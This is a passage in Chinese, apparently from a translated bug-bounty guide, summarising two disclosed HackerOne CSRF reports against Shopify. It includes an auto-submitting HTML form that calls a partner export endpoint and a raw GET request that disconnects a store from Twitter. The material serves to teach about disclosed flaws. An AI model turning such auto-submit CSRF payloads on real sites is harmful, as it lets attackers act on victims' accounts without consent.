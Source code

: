 URL：`https://app.shopify.com/services/partners/api_clients/XXXX/export_installed_users`

报告链接：`https://hackerone.com/reports/96470`

报告日期：2015.10.29

奖金：$500

描述：

Shopify 的 API 提供了一个终端，用于导出已安装用户的列表，通过上面给出的 URL。在站点能够调用该终端，并且读取信息的地方存在漏洞，因为 Shopify 在该调用中并没有包含任何 CSRF Token 验证。所以，下面的 HTML 代码可以用于代表任何未知受害者提交表单。

```
<html> 
    <head><title>csrf</title></head> 
    <body onLoad="document.forms[0].submit()"> 
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET"> 
        </form>
    </body> 
</html>
```

这里，通过仅仅浏览站点，JavaScript 就会提交表单，它实际上包含 Shopify API 的 GET 请求，使用受害者的浏览器，并提供 Shopify 的 Cookie。

> 重要结论
> 
> 扩展你的攻击领域，并从站点转向它的 API 终端。API 提供了极大的漏洞可能性，所以最好牢记他，尤其是当你知道 API 可能开发完毕，或者在站点实际开发之后可用的时候。

### 2\. Shopify Twitter 断开连接

难度：低

URL：`https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect`

报告链接：`https://hackerone.com/reports/111216`

报告日期：2016.1.17

奖金：$500

描述：

Shopify 提供了 Twitter 的继承，来允许店主转推它们的商品。与之相似，也提供了功能来断开推特账户和被连接商店的链接。

断开 Twitter 账户的 URL 卸载了上面。当进行调用时，Shopify 不验证 CSRf Token，这可能会允许恶意人员代表受害者进行 GET 调用，因此断开受害者的商店与 Twitter 的连接。

在提供这份报告的时候，WeSecureApp 提供了下面的漏洞请求示例 - 要注意下面的`img`标签的使用，它对漏洞 URL 进行调用：

```
GET /auth/twitter/disconnect HTTP/1.1 
Host: twitter-commerce.shopifyapps.com 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0 
Accept: text/html, application/xhtml+xml, application/xml 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://twitter-commerce.shopifyapps.com/account 
Cookie: _twitter-commerce_session=REDACTED 
Connection: keep-alive
```
